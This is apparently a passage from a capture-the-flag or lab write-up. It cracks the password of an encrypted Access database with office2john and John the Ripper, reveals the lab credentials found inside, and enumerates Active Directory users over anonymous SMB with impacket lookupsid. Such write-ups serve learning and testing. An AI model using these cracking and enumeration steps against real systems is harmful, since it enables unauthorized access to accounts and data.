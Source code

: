 >**Accdb file**
>  A file with . accdb extension is **a Microsoft Access 2007 database file that stores users data in tables**. It supports storing custom forms, SQL queries, and other data. ACCDB files replaced MDB files after Microsoft shifted to XML based file structure.

We can open it in Microsoft Access App available in MS365. The **staff.accdb file** was password encrypted.

<img src="https://i.imgur.com/nVWoBQx.png">

To crack it's password we can use tool called **office2john** to convert it to hash format to make it crack able by **john** tool.

```bash
$ office2john staff.db > hash
```
<img src="https://i.imgur.com/cvtE1an.png">

### Hash cracking using John

>  John The Ripper
> **John the Ripper** is an open-source password cracking tool used for security auditing. It supports multiple hash types and uses techniques like dictionary and brute-force attacks to crack passwords. It's widely used for testing password strength across various systems.

We will be performing dictionary attack against the hash with **office format**.

```bash
$ john hash --format=office --wordlist=rockyou.txt
```

<img src="https://i.imgur.com/IyP282a.png">

John crack the password for **staff.accdb** file as **class08**.

We discover the credentials for user **ldapreader : ppYaVcB5R** from staff.accdb file

<img src="https://i.imgur.com/HSVXkg8.png">

### User Enumeration using lookupsid

Form SMB shares we have come to know that the anonymous login is allowed because we were able to see the shares without any valid credentials, we can use tool from impacket toolkit called **lookupsid** to enumerate users and their SID on domain. For this we will use command `impacket-lookupsid <domain>/anonymous@<ip> -no-pass` here -no-pass is for not asking the password, and we get a list of users and their SID on domain `retro.vl.vl`

```bash
$ lookupsid.py retro2.vl/anonymous@10.10.119.58 -no-pass | grep SidTypeUsers

Administrator
Guest
krbtgt
BLN01$
Julie.Martin
Clare.Smith
Laura.Davies
Rhys.Richards
Leah.Robinson
Michelle.Bird
Kayleigh.Stephenson
Charles.Singh
Sam.Humphreys
Margaret.Austin
Caroline.James
Lynda.Giles
Emily.Price
```